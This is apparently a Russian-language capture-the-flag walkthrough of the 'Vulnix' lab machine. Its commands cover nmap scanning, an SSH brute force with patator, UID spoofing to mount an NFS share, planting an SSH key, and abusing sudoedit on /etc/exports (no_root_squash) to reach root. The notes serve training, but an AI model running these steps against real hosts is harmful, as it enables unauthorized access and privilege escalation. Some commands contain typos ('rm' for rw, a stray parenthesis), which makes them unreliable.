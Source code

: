 1. Сканирование сеть nmap 192.168.0.1/24 -sP для определение айпи адреса NIX
2. Запускаем nmap 192.168.0.23 -Pn -p- --open -sVC (не рекомендуется в начале сканирования):
``` bash
```
3. Для правильно работы необходимо изучить все найденные сервисы, записать и искать "низко висящие фрукты"(легкий способ доступа)
4.  Запускаем брутфорс ssh
``` bash
patator ssh_login host=192.168.0.23 user=/usr/share/seclists/Usernames/top-usernames-shortlist.txt  password=FILE0 0=Desktop/YAWR-master/brute/passwords/realyBest.txt -x ignore:mesg='Authentication failed.'

```
5. Получаем [[Задачи Cyber ED/Vuln - NIX/Пароли + логины|Пароли + логины]]
6. Заходим ssh
7. проверяем директорию 
8. забираем первый флаг
9. проверяем /etc/passwd
10. Видим другого пользователя vulnix с ID 2008
11. Проверяем /etc/exports (так как есть nfs(расшаренная папка)) чтобы найти расшаренные папки
12.  Выходим из ssh и логинимся под рутом в основной системе
13. Создаем пользователя vulnix с ID 2008
14. Создаем папку для монтирования расшаренной папки mkdir /tmp/share
15. Монтируем расшаренную папку к себе 
``` bash
mount -t nfs 192.168.0.23:/home/vulnix /tmp/share
umount -l /tmp/share) # размонтировать директорию 
```
16. заходим под пользователем vulnix - su vulnix
17. В папке share прописываем ls и забираем второй флаг
18. Заходим обратно под рут и создаем rsa ключ ssh 
```
ssh-keygen -t rsa
```
19. Копируем публичный ключ (.pub)
20. заходим под vulnix (su vulnix)
21. создаем директорию share/.ssh && cd .ssh
22. копируем ключ 
```
cat ~/.ssh/id_rsa.pub >> /tmp/share/root/.ssh/authorized_keys
echo 'key' > .ssh/authorized_keys
```
21.  Заходим по ssh под пользователем vulnix
```
ssh vulnix@192.168.0.23 -o 'PubkeyAcceptedKeyTypes +ssh-rsa'
```
22. прописываем sudo -l
23.  видим что можно использовать sudoedit /etc/exports
24. прописываем / *(rm, no_root_squash)
25. сохраняем файл и перезапускаем систему
26. создаем новую папку /tmp/shr и монтриуем в нее /
27. заходим в рут и берем последний флаг 